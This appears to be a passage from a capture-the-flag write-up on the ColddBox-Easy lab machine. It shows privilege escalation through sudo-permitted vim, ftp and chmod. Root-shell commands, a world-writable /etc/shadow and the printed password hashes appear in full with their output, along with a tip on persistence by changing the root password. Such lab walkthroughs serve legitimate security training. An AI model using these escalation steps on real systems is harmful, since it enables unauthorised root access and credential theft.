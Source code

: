 We alread know vim/vi or some text editors run commands so basically if they run as root

we run commands as root...ask nicely for a shell

```
c0ldd@ColddBox-Easy:~$ sudo vim -c ':!/bin/sh'
[sudo] password for c0ldd: 

# id                               
uid=0(root) gid=0(root) groups=0(root)

```

### The file transfer pwnage

ftp runs commands? who would know?

```
c0ldd@ColddBox-Easy:~$ sudo ftp
ftp> !/bin/sh
# id
uid=0(root) gid=0(root) groups=0(root)

```
### Changing the owner

sudo on chmod is like communism memes, it belongs to everyone

```
c0ldd@ColddBox-Easy:~$ sudo chmod 777 /etc/shadow
c0ldd@ColddBox-Easy:~$ cat /etc/shadow | grep c0ldd
c0ldd:$6$AnciUfDx$Y9lDZThc6/Q/rWMajprHD54ynCLBmy8swBujZO.CG6b7j7YZiR/RIrdhzn2euH1A9r2jJE2U0bbLarUFdwSI40:18529:0:99999:7:::
c0ldd@ColddBox-Easy:~$ cat /etc/shadow | grep root
root:$6$VMnvWAfh$Yg04FhiScJ8Pv3ET6Ys.4G.BdLC0HyyxcDB1jVa28F20gdz4zI.GyrQSg8elF4nx3yH1g3ZKA/uvO8Fqll.T70:18939:0:99999:7:::

```
At this point you can do anything lol! 

you are basically root already

Like seriously

```
c0ldd@ColddBox-Easy:~$ sudo chmod 777 /root
c0ldd@ColddBox-Easy:~$ cd /root
c0ldd@ColddBox-Easy:/root$ ls
root.txt
c0ldd@ColddBox-Easy:~$ sudo chmod 777 /root
c0ldd@ColddBox-Easy:~$ cd /root
c0ldd@ColddBox-Easy:/root$ ls
root.txt
```

If you want real persistance just change root password in /etc/shadow
